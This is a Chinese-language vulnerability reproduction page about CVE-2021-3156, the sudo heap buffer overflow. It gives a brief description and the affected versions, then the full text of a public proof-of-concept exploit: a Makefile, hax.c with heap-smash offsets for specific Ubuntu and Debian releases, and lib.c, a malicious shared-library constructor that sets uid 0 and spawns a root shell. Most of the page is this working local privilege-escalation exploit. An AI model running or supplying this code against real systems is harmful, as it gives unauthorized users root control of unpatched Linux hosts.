



# Linux sudo 权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```

## 漏洞复现

目前POC已经在Github公开：[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)


当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31  Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

**这里使用腾讯云中的Ubuntu镜像进行复现**

[]()

使用命令

[]()

[

漏洞POC

一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

**Makefile**

```c
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
	gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```

**hax.c**

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    fprintf(stdout,
        "  usage: %s <target>\n\n"
        "  available targets:\n"
        "  ------------------------------------------------------------\n",
        prog
    );
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    fprintf(stdout,
        "  ------------------------------------------------------------\n"
        "\n"
        "  manual mode:\n"
        "    %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
        "\n",
        prog
    );
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2 && argc != 5) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = NULL;
    if (argc == 2) {
        int target_idx = atoi(argv[1]);

        if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
            fprintf(stderr, "invalid target index\n");
            return -1;
        }

        target = &targets[ target_idx ];
    }  else {
        target = malloc(sizeof(target_t));
        target->target_name    = "Manual";
        target->sudoedit_path  = SUDOEDIT_PATH;
        target->smash_len_a    = atoi(argv[1]);
        target->smash_len_b    = atoi(argv[2]);
        target->null_stomp_len = atoi(argv[3]);
        target->lc_all_len     = atoi(argv[4]);
    }

    printf(
        "using target: %s ['%s'] (%d, %d, %d, %d)\n", 
        target->target_name,
        target->sudoedit_path,
        target->smash_len_a,
        target->smash_len_b,
        target->null_stomp_len,
        target->lc_all_len
    );

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```

**lib.c**

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
#ifndef BRUTE
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
#endif
}
```